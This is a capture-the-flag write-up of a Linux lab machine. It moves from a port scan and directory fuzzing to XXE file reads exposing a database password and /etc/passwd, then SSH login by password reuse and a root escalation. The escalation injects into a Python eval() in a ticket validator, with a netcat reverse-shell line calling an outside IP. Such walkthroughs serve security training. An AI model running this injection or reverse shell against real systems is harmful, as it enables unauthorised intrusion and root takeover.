## RUSTSCAN:
`
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 d44cf5799a79a3b0f1662552c9531fe1 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDLosZOXFZWvSPhPmfUE7v+PjfXGErY0KCPmAWrTUkyyFWRFO3gwHQMQqQUIcuZHmH20xMb+mNC6xnX2TRmsyaufPXLmib9Wn0BtEYbVDlu2mOdxWfr+LIO8yvB+kg2Uqg+QHJf7SfTvdO606eBjF0uhTQ95wnJddm7WWVJlJMng7+/1NuLAAzfc0ei14XtyS1u6gDvCzXPR5xus8vfJNSp4n4B5m4GUPqI7odyXG2jK89STkoI5MhDOtzbrQydR0ZUg2PRd5TplgpmapDzMBYCIxH6BwYXFgSU3u3dSxPJnIrbizFVNIbc9ezkF39K+xJPbc9CTom8N59eiNubf63iDOck9yMH+YGk8HQof8ovp9FAT7ao5dfeb8gH9q9mRnuMOOQ9SxYwIxdtgg6mIYh4PRqHaSD5FuTZmsFzPfdnvmurDWDqdjPZ6/CsWAkrzENv45b0F04DFiKYNLwk8xaXLum66w61jz4Lwpko58Hh+m0i4bs25wTH1VDMkguJ1js=
|   256 a21e67618d2f7a37a7ba3b5108e889a6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKlGEKJHQ/zTuLAvcemSaOeKfnvOC4s1Qou1E0o9Z0gWONGE1cVvgk1VxryZn7A0L1htGGQqmFe50002LfPQfmY=
|   256 a57516d96958504a14117a42c1b62344 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJeoMhM6lgQjk6hBf+Lw/sWR4b1h8AEiDv+HAbTNk4J3
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
|_http-title: Bounty Hunters
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port`
* * *
## SSH:
Nothing so far, we need a proper username/password, we can come back later...

* * *
## HTTP:
Upon our login we can see a normal webpage:


Nothing strange emerged by the HTML sourcecode, except that we have a Portal:


Moving forward seems like this is a WIP php page that redirects us to log_submit.php:


Now I haven't found any subdomains and I've seen that portal and bug formular are sigular php pages so I guess we have everithing in our sight to exploit this machine. I think easiest is to launch BurpSuite and catch all the traffic to/from server and get a sitemap.

But before we launched a Webdirectories fuzzing and found only one directory:


Checking forward we can see some more interesting files:

More specific the Readme.txt:
`Tasks:

[ ] Disable 'test' account on portal and switch to hashed password. Disable nopass.
[X] Write tracker submit script
[ ] Connect tracker submit script to the database
[X] Fix developer group permissions`
And bountylog.js:


Now checking that new php file from bountylog seems like is not that usefull, at least it gives us thr structure to fill the Beta Report but nothing so far?


Trying to submit a CWE on the Beta portal i get this out of it:

Where the data seems URL + base64 encoded:


And the website answers back with whatever we uploaded:

* * *
## XXE 
Now that we now that Beta Formular uses XML (BASE64+URL encoded) we can see if we can get a XXE?

Using this one(more specifically the one with base64 encoding):
https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#read-file

Can leads us to read php files:


And then sending the payload BASE64 + URL encoded gives us the base64 in the Title field that can leads us to read files that are not supposed to be read.


Now i had to check back and apparently Dirsearch missed a php file for some reasons, that's why i had to re-run wirth gobuster instead and found it:

Same is with ffuf:


Now we can go back to XXE and read DB instead:
`<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>`

Can we see if this password is reused? First we need to try to read /etc/passwd to get all users:
`root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
development:x:1000:1000:Development:/home/development:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin`
* * *
## USER
Can we login via SSH as developement with password from DB?


Si signor, grab first flag.

* * *
## ROOT
We can see that developer can run a python script:


Reading a txt file in development home is pointing in same direction:


What can we do with the Python script? Seems like no editing!
The script checks for file.md and then it checks that scripts have some name to pass some ifs... 

Running linpeas on machien we found:
`╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version
Sudo version 1.8.31
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034
Vulnerable to CVE-2021-3560
Potentially Vulnerable to CVE-2022-2588

You own the SUID file: /usr/bin/bcred
╔══════════╣ Executable files potentially added by user (limit 70)
2021-04-06+22:14:23.2399104060 /usr/bin/bcred
╔══════════╣ Unexpected in /opt (usually empty)
total 12
drwxr-xr-x  3 root root 4096 Jul 22  2021 .
drwxr-xr-x 19 root root 4096 Jul 21  2021 ..
drwxr-xr-x  3 root root 4096 Jul 22  2021 skytrain_inc
`

Checking back Skytrain we can see some structure of those scripts:


From python script it needs to match:
1. Start with **# Skytrain Inc**
2. Then **## Ticket to** 
3. Then **__Ticket Code:__**
4. Then start with **
5. First number must give 11 from modulo 7 which is only 11
6. value must be more than 100
7. last part should have ""

Doing this we can see that ticket gets validated and now we must exploit eval in order to get a shell.
Reading about this:
https://stackoverflow.com/questions/59519289/python-running-reverse-shell-inside-eval
We can say that script will be like:
`# Skytrain Inc
## Ticket to yovecio
__Ticket Code:__
**11+200 and __import__('os').system('nc 10.10.14.4 5555 -e /bin/sh')`

This should get us a new shell as root:

And grab last flag